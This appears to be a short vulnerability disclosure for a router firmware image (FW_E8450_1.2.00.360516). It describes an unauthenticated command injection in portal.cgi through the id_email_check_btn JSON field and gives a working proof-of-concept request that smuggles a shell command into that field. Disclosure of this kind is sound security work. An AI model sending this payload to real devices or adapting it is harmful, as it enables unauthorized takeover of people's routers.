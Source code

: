 ## Firmware

Firmware version:FW_E8450_1.2.00.360516_prod_signed.img

## Analyze

Unauthenticated command injection 

The vulnerability is located at address 0x042BCB4. The sub_422eb8 function is an json parsing function.The parsed fields(id_email_check_btn) are used as arguments to the system function.

![](../imgs/9.png)

## Poc

Send the following data to this url to trigger the vulnerability:  http://target/cgi-bin/portal.cgi 

```json
{"action":"register_email","page":"register_email_wizard","id_email_check_btn":"';id>/tmp/pwned;# '","userEmail":""}
```

![](../imgs/10.png)